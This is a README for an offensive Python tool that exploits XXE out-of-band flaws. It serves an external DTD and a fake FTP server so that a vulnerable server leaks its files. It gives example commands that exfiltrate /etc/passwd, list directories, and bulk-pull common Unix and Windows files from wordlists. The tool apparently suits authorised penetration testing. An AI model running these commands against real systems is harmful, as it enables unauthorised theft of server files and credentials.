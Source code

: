 # XXE OOB Exfiltrator

## Description
This is a simple tool for exploiting XXE Out-Of-Band vulnerability to exfiltrate files content (or list directories) using a self-hosted HTTP server to deliver a DTD which links to a self-hosted simulated FTP server for exfiltrating the file content.

## Features
* External DTD inclusion by using self-hosted HTTP server
* Multi-line content exfiltration by using `ftp://` URI scheme and self-hosted simulated FTP server
* Base64 encoded content exfiltration by using `php://` URI scheme and self-hosted simulated FTP server
* Single file exfiltration (and in some cases directory listing)
* Multiple files exfiltration using a wordlist of filepaths
* Output exfiltrated content to a file
* Save exfiltrated files to a directory
* Automatically trigger exploit by sending HTTP request to vulnerable server before starting local servers for exfiltration

### Note:
The multiline content exfiltration (without Base64 encoding) will work only on environments that allow multiline URIs, for instance in some Java environments it won't work because Java doesn't allow multiline URIs since version 8. Also it won't work with binary files because bad characters will break the URI.

## Usage
To run the script you need Python 3 and the Python `requests` library.

To run in automatic mode you need a JSON requestfile that will be parsed by the script to automatically trigger the exploit. A template of the JSON requestfile is available [here](data/reqfile_template.json).

### Help
```
usage: xxeoob.py [-h] -s SERVER [-f FILE] [-fp FTP_PORT] [-hp HTTP_PORT]
                 [-o OUTFILE] [-w WORDLIST] [-r REQUESTFILE] [-b]

XXE OOB file content exfiltrator via self-hosted HTTP and FTP servers

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        This server IP/hostname
  -f FILE, --file FILE  File to retrieve in vulnerable server
  -fp FTP_PORT, --ftp-port FTP_PORT
                        FTP server port (default: 21)
  -hp HTTP_PORT, --http-port HTTP_PORT
                        HTTP server port (default: 80)
  -o OUTFILE, --outfile OUTFILE
                        Output exfiltrated content to file (or directory in
                        case of multiple files)
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist containing a list of files to retrieve
  -r REQUESTFILE, --requestfile REQUESTFILE
                        Use JSON request file for automatic mode (to
                        automatically trigger the request to vulnerable
                        server)
  -b, --base64          Convert exfiltrated content from Base64
```

### Examples
`./xxeoob.py -s 10.10.10.10 -hp 8081 -fp 2121 -f /etc/passwd`

Exfiltrate "/etc/passwd" file content

`./xxeoob.py -s 192.168.1.123 -f /etc`

List the content of the directory "/etc"

`./xxeoob.py -s 172.17.0.1 -w data/linux_commonpaths_wordlist -o exfiltrated_files -r custom_reqfile.json`

Automatically exfiltrate all common unix files and save them in "exfiltrated_files" directory

`./xxeoob.py -s 127.0.0.1 -w data/windows_commonpaths_wordlist -o exfiltrated_files -r custom_reqfile.json -b`

Automatically exfiltrate all common windows files in Base64 mode and save them in "exfiltrated_files" directory
